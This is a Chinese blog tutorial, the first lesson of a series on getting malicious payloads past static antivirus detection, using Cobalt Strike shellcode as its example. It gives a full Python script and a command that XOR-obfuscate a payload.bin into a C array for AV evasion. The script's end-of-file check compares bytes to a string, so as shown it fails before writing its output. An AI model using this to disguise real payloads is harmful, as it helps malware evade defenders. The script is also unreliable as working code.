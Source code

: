 ```yaml
---
title: 静态恶意代码逃逸（第一课）
layout: post
date: '2019-11-10'
permalink: "/archivers/2019-11-10/1"
description: 来来回回就会这么一点东西，不想一直停留在一个点上了，准备总结一下，往深的走。
---
```


## 0x00 前言

前五课的代码将会上传至Github，方便读者下载研究

在此之前，我分享过《高级后渗透C2免杀与对抗》，其中对于一些原理铺垫上稍有欠缺，因此准备分成几篇文章来展开。

## 0X01 恶意代码的定义

以下文章中的所有关于恶意代码的定义都以Cobaltstrike的载荷为例。

## 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

## 0x03 RAW文件
RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的BIN文件。

![2019-11-10-01-55-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c92e631bce3ba5a65abf23ba121a2dbd.png)

RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常我一般使用混淆的方式再生成一遍。

## 0x04 C文件

![2019-11-10-01-56-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0e4a46bbd3c992df26cccad1a51b4c28.png)

C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

## 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while True:
            code = src_fp.read(1)
            if code == '':
                break

            base10 = ord(code) ^ num
            base10_str = chr(base10)
            shellcode_raw += base10_str.encode()
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_raw.write(shellcode_raw)
        dst_raw.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```

上面这个脚本是我在去年写的，用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

### 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\xor_shellcoder.py -s .\payload.bin  -d payload.c -n 10
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。

![2019-11-10-01-57-13](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8f85073149fe77ff6bc0040a50f2e3d4.png)

这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。